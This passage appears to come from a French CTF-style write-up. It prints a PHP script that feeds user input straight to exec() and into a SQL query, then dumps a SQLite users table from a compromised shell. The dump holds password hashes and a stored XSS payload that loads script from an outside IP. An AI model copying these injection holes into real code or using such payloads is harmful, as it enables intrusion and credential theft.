 Voici le contenu du script `analyze_dna.php` :

```php
<?php

ini_set('display_errors', true);
error_reporting(E_ALL);

session_start();

if (isset($_SESSION['authed'])) {
    $data = json_decode(file_get_contents("php://input"));
    if (!$data) {
        exit();
    }
    $val = $data->val;
    $id = $data->id;

    $res = exec('./dnanalyzer ' . $val);

    include_once '../database.php';

    $databaseService = new DatabaseService();
    $con = $databaseService->getConnection();

    try {
        $con->query("UPDATE `Users` SET dna_result = '" . $res . "' WHERE id = '" . $id . "'");
    } catch (PDOException $e) {
        print $e->getMessage();
    }

    print $res;

}

?>
```

Tout est stocké dans une base sqlite3 :

```shellsession
www-data@alphonse:/var/www/html/dnanalyzer$ sqlite3 users.sqlite3 
SQLite version 3.27.2 2019-02-25 16:06:06
Enter ".help" for usage hints.
sqlite> .tables
Users
sqlite> .schema Users 
CREATE TABLE Users (id INTEGER PRIMARY KEY AUTOINCREMENT, username nvarchar, password nvarchar, dna_string nvarchar, dna_result nvarchar);
sqlite> select * from Users;
5|Alphonse|$2y$10$R6Y.DdYH5BUhbtUf1LOQ1OxAAxlRlrUbXg0z.tZtXnQxML7BiFN4e|GATC|Superb
6|Kevin|$2y$10$qqh98ui/i.DOW5pDCXRJJedNnYOwk8TttCEc5TQB35q.8N.4U8jfO|TCAG|Weak
40||$2y$10$ph0nscggdbMy82KLyxfv1.szMoWpSl3m7usR166TKfcB4sW56FfWm||
41||$2y$10$mPKMdYV77kglkqFfdbGhYe5817Jk3gDQiNDG/jsx9LM7FpSXKXJuC||
42|devloop|$2y$10$CpVpMf..X7EGn941Y2MGcexFKeATqOgMxOn5rtur36pWdERq0RmVG|1|Superb
43|zozo2|$2y$10$cA1pP8gSFcq9WU5XevCMjOzK1q9PEG1Mv6BaKZGD26dver24L5Ozi|<script src="http://192.168.56.1/test2.js"></script>|
```
